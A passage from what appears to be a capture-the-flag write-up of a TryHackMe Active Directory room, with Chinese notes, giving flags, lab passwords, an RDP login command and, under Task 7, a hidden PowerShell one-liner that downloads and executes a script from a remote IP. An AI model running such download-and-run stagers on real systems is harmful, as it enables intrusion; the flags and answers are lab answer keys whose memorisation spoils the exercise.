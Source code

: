 ```

> What is the password of the credential database?

> Imreallysurenoonewillguessmypassword

> What is the value of the flag stored in the credential database?

> THM{AD.Users.Can.Give.Up.Good.Secrets}



# Task 6  Exploiting GPOs

RDP连接
```
xfreerdp /v:thmwrk1.za.tryhackme.loc /u:t2_henry.harvey /p:'max.123456'
```

rdp真是太卡了

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660643241183.jpg)


> What object allows users to configure Windows policies?

> Group Policy Object

> What AD feature allows us to configure GPOs for the entire AD structure?

> Group Policy Management

> What is the name of the GPO that our compromised AD account owns?

> Management Server Pushes

> What is the value of the flag stored on THMSERVER2 in the Administrator's Desktop directory (flag4.txt)?

> THM{Exploiting.GPOs.For.Fun.And.Profit}

# Task 7  Exploiting Certificates


powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.50.57.67:80/a'))"

max.smith Password: Kdbt1458
